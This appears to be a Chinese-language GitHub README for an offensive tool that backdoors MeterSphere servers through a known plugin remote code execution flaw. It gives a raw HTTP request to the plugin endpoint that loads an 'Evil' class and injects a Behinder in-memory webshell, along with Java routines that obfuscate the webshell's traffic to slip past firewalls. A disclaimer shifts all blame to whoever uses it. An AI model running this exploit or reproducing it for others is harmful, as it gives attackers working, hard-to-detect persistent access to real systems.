




# MeterSphere-plugin-Backdoor
##  👮🏻‍♀️ 免责声明

由于传播、利用**MeterSphere-plugin-Backdoor**工具提供的而造成的**任何直接或者间接的后果及损失**，均由使用者本人负责，本人**不为此承担任何责任**。

* 支持注入内存马和Bypass WAF

#### 命令执行



#### 注入内存马

* 传入**inject**编码后的**Base64**进行注入冰蝎内存马

```
POST /plugin/customMethod HTTP/1.1
Host: localhost:8081
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Connection: close
Cookie: MS_SESSION_ID=75407ecc-369b-48a7-ae80-d000f0d1b700
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 65

{
  "entry": "org.metersphere.Evil",
  "request": "aW5qZWN0"
}
```

* 冰蝎加密函数

```java
private byte[] Encrypt(byte[] data) {
    byte[] dt = new byte[data.length];
    for (int i = 0; i < data.length; i++) {
        dt[i] = (byte) (data[i] + 1);
    }
    try {
        java.io.ByteArrayOutputStream o = new java.io.ByteArrayOutputStream();
        java.util.zip.GZIPOutputStream g = new java.util.zip.GZIPOutputStream(o);
        g.write(dt);
        g.close();
        byte[] c = o.toByteArray();
        byte[] ct = new byte[c.length];

        for (int i = 0; i < c.length; i++) {
            ct[i] = (byte) (c[i] + 1);
        }
        return ct;
    } catch (Exception ignored) {
    }
    return data;
}
```

* 冰蝎解密函数

```java
private byte[] Decrypt(byte[] data) {
    byte[] dt = new byte[data.length];
    for (int i = 0; i < data.length; i++) {
        dt[i] = (byte) (data[i] - 1);
    }
    try {
        java.io.ByteArrayInputStream t = new java.io.ByteArrayInputStream(dt);
        java.util.zip.GZIPInputStream i = new java.util.zip.GZIPInputStream(t, dt.length);
        byte[] c = r(i);
        byte[] ct = new byte[c.length];
        for (int b = 0; b < c.length; b++) {
            ct[b] = (byte) (c[b] - 1);
        }
        return ct;
    } catch (Exception ignored) {
    }
    return data;
}
private byte[] r(java.io.InputStream i) {
    byte[] temp = new byte[1024];
    java.io.ByteArrayOutputStream b = new java.io.ByteArrayOutputStream();
    int n;
    try {
        while((n = i.read(temp)) != -1) {b.write(temp, 0, n);
        }} catch (Exception ignored) {
    }
    return b.toByteArray();
}
```







### 参考

https://github.com/vulhub/vulhub/tree/master/metersphere/plugin-rce

https://github.com/metersphere/metersphere/security/advisories/GHSA-mcwr-j9vm-5g8h
